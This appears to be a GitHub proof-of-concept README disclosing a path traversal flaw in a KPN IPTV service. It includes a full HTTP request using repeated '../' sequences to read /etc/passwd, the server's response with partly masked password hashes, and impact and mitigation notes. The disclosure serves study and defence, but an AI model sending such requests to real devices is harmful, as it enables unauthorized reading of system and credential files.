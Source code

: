 # KPN-FilePathTraversal-POC-2023

# KPN ITV File Path Traversal Vulnerability

This repository explains a **file path traversal vulnerability** in the KPN IPTV service, allowing unauthorized access to sensitive system files, such as `/etc/passwd`.

---

## Vulnerability Overview

A **path traversal** (or directory traversal) attack occurs when an attacker manipulates the URL path to access directories and files outside the intended web directory. By using sequences like `../../`, an attacker can navigate up the directory structure and potentially access sensitive files.

---

## Example Attack Flow

### URL:
```plaintext
http://192.168.2.x:8081/Service/Controller/UI?ip=192.168.2.x&port=8081
```

* This is the base URL of the KPN IPTV service.

# Malicious Request:
* Burp request
```
GET /Service/Controller/UI../../../../../../../../../../../../../../../../etc/passwd?ip=192.168.2.x&port=8081 HTTP/1.1
Host: 192.168.2.x:8081
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```
* In this request, the attacker exploits path traversal to reach the /etc/passwd file. This is done by adding multiple instances of ../, which moves up the directory structure.
Burp Suite Response

# Response 
The server responds with a 200 OK status and the contents of the /etc/passwd file, including sensitive information. The hashes in the response below have been blurred for privacy:

plaintext
```
HTTP/1.1 200 OK
Content-Type: unknown
Content-Length: 940

root:$5$96bRk************$uTSh**************RLdK1ND*********/XLWC:0:0:root:/home/root:/bin/sh
daemon:*:1:1:daemon:/usr/sbin:/bin/sh
bin:*:2:2:bin:/bin:/bin/sh
sys:*:3:3:sys:/dev:/bin/sh
sync:*:4:65534:sync:/bin:/bin/sync
games:*:5:60:games:/usr/games:/bin/sh
man:*:6:12:man:/var/cache/man:/bin/sh
lp:*:7:7:lp:/var/spool/lpd:/bin/sh
mail:*:8:8:mail:/var/mail:/bin/sh
news:*:9:9:news:/var/spool/news:/bin/sh
uucp:*:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:*:13:13:proxy:/bin:/bin/sh
www-data:*:33:33:www-data:/var/www:/bin/sh
backup:*:34:34:backup:/var/backups:/bin/sh
list:*:38:38:Mailing List Manager:/var/list:/bin/sh
irc:*:39:39:ircd:/var/run/ircd:/bin/sh
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:*:65534:65534:nobody:/nonexistent:/bin/sh
ntpd:x:1001:65534:Linux User,,,:/var/shared/empty:/bin/sh
utc:$5$qkymr************$M1qu**************JoEifmNs********AiybaC:1000:1000:utc:/home/utc:/bin/sh
```


# Explanation of /etc/passwd

* The /etc/passwd file stores essential user account information for a Unix-based system. It typically includes the following information:

While modern systems store password hashes in the /etc/shadow file, /etc/passwd can still leak important information, especially for attackers targeting system accounts.
Impact
```
   * Information Disclosure: Attackers can access sensitive files like /etc/passwd, revealing system user information.
   * Potential Exploitation: With access to password hashes, attackers can attempt password cracking or gain unauthorized system access.
```
Mitigation
```
   * Input Validation: Ensure all user inputs are validated and sanitized to prevent malicious sequences like ../.
   * Restrict Directory Access: Configure the web server to limit access to sensitive directories.
   * Use Web Application Firewalls (WAFs): A WAF can help detect and block suspicious URL patterns associated with path traversal attacks.
```
Conclusion

Path traversal vulnerabilities can lead to severe data exposure and compromise system integrity. This example from the KPN IPTV service demonstrates how improper input validation can open the door to sensitive information leakage. Always implement strong security measures to mitigate such risks.
